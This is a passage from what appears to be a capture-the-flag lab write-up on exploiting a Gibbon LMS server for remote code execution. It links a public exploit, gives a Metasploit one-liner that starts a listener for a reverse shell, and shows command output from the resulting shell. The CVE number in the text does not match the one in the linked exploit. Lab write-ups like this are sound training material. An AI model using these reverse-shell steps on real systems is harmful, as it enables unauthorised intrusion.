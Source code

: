 Unfortunately for us, the sql file does not contain any relevant info as users, seems like a waste then, if we check for any other exploit on this version, we can find:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616170727.png)

We find `CVE-2023-34878` this is a vuln which talks about arbitrary file read that leads to rce, if we search for an exploiit, we can find this one:

Exploit: https://github.com/0xyy66/CVE-2023-45878_to_RCE

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616171019.png)

Let's do the exploit, we need a Metasploit listener using multi handler, we can use this simple one liner to start it:

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD generic/shell_reverse_tcp; set LHOST IP; set LPORT 4444; exploit"
```

Now, start the exploit:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616171931.png)

As seen, we get a reverse shell as:

```powershell
C:\xampp\htdocs\Gibbon-LMS>whoami
whoami
frizz\w.webservice
```

Time to look around the machine:

```
C:\xampp\htdocs\Gibbon-LMS>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp\htdocs\Gibbon-LMS

06/16/2025  10:16 PM    <DIR>          .
10/29/2024  07:28 AM    <DIR>          ..
01/20/2023  07:04 AM               634 .htaccess
06/16/2025  10:18 PM             7,168 7zip.exe
01/20/2023  07:04 AM           197,078 CHANGEDB.php
01/20/2023  07:04 AM           103,023 CHANGELOG.txt
01/20/2023  07:04 AM             2,972 composer.json
01/20/2023  07:04 AM           294,353 composer.lock
10/11/2024  08:15 PM             1,307 config.php
01/20/2023  07:04 AM             3,733 error.php
01/20/2023  07:04 AM             1,608 export.php
01/20/2023  07:04 AM            32,988 favicon.ico
01/20/2023  07:04 AM             2,277 fullscreen.php
01/20/2023  07:04 AM            57,535 functions.php
01/20/2023  07:04 AM             5,610 gibbon.php
10/29/2024  07:27 AM           493,211 gibbon.sql
01/20/2023  07:04 AM         1,254,473 gibbon_demo.sql
06/16/2025  10:18 PM                33 gibbon_myconfig.php
01/20/2023  07:04 AM    <DIR>          i18n
01/20/2023  07:04 AM            31,228 index.php
01/20/2023  07:04 AM             2,356 indexExport.php
01/20/2023  07:04 AM               813 indexFindRedirect.php
01/20/2023  07:04 AM            12,327 index_fastFinder_ajax.php
01/20/2023  07:04 AM             2,579 index_notification_ajax.php
01/20/2023  07:04 AM             2,767 index_notification_ajax_alarm.php
01/20/2023  07:04 AM             1,690 index_notification_ajax_alarmConfirmProcess.php
```